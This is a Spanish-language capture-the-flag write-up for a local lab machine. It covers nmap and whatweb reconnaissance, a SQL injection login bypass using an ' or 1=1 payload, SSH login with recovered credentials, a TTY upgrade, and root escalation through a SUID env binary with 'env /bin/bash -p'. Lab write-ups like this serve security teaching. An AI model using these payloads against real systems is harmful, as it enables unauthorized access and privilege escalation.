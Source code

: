 # Etapa de Reconocimiento

## Nmap

### 1.er Escaneo

Usamos la herramienta *nmap* para descubrir servicios que puedan estar corriendo.
```ruby
nmap -p- --open --min-rate 5000 -sS -vvv 172.17.0.2 -n -Pn -oG allPorts
```

#### Parámetros del Escaneo

| Parametro       | Motivo                                      |
| --------------- | ------------------------------------------- |
| -p-             | Escaneo de todo rango de puertos            |
| --open          | Filtrar solo por los puertos abiertos       |
| --min-rate 5000 | No permitir paquetes mas lentos que 5000p/s |
| -sS             | Usar el metodo TCP-SYN                      |
| -vvv            | Ver la informacion durante el escaneo       |
| 172.17.0.2      | La IP                                       |
| -n              | No aplicar Resolucion DNS                   |
| -Pn             | Deshabilitar el descubrimiento de Host      |
| -oG allPorts    | Exportar el escaneo en formato Grepeable    |

#### Output
Vemos que la máquina tiene abierto los puertos *22,80*, en los que concuerdan los servicios *SSH y HTTP*.
```ruby
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

## Reconocimiento WEB
### Whatweb
Usaremos el binario *whatweb $url* para ver información detallada de los servicios que puedan estar corriendo por detrás.
```ruby
whatweb http://172.17.0.2
```

Vemos que tiene una *PasswordField* y el título de la página es *Iniciar Sesión*, podemos intuir que tiene algún login.
```ruby
http://172.17.0.2 [200 OK] Apache[2.4.52], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[172.17.0.2], PasswordField[password], Title[Iniciar Sesión]
```

### Vista de la WEB
Vemos que sí tiene un login.
![](../../images/Pasted%20image%2020240601180703.png)
# Explotación
## SQLi
Al tener un login, lo primero que se prueba es un *SQLi* para intentar evadir el login.
![](../../images/Pasted%20image%2020240601181435.png)
En el campo USER vamos a insertar `${texto}' or 1=1;`, lo que queremos es que el resultado de la petición sea *True*:

Nosotros ahora estamos enviando esta petición:
`SELECT * FROM Users WHERE User = ${texto}' or 1=1;` (Por ejemplo)

Vemos que va a comprobar si hay un usuario que sea existente con el nombre *${texto}*, seguramente no, pero luego va a comprobar si *1=1*, en este caso sí.

La primera es *falsa* y la segunda es *verdadera*:

*falso* **or** *verdadero* = *verdadero*

Nos permite la evasión del login.

## SSH
Vemos un *Usuario* y una *Contraseña*, por lo tanto, intentaremos entrar por *ssh* (Servicio que sabemos que está corriendo).
![](../../images/Pasted%20image%2020240601183040.png)
Usamos *sshpass* para no tener que introducir la contraseña luego.
![](../../images/Pasted%20image%2020240601183504.png)
**¡¡Tenemos acceso al sistema!!**

### Tratamiento de la TTY

Es muy recomendable hacer un tratamiento de la TTY para poder hacer *[ ^L ]*, *[ ^C ]*, etc.
```ruby
script /dev/null -c bash
```

```ruby
stty raw -echo; fg
```

```ruby
[^Z]
```

```ruby
reset xterm
```

```ruby
export SHELL=bash && export TERM=xterm
```

## Escalada de Privilegios

### Búsqueda de Vulnerabilidades

Vamos a probar a buscar ficheros con *SUID* y usuario propietario *root*.
```ruby
find / -perm -4000 -user root 2>/dev/null
```

```r
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/su
/usr/bin/mount
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/umount
/usr/bin/env
/usr/bin/gpasswd
```

De todos los binarios, el **env** es vulnerable si tiene el *SUID*.

Se puede ver fácilmente en: https://gtfobins.github.io/gtfobins/env/

### Root
En esta misma página nos indica como podemos escalar privilegios con este binario:
```r
env /bin/bash -p
```
![](../../images/Pasted%20image%2020240601185157.png)
**¡¡Ya tenemos privilegios ROOT!!**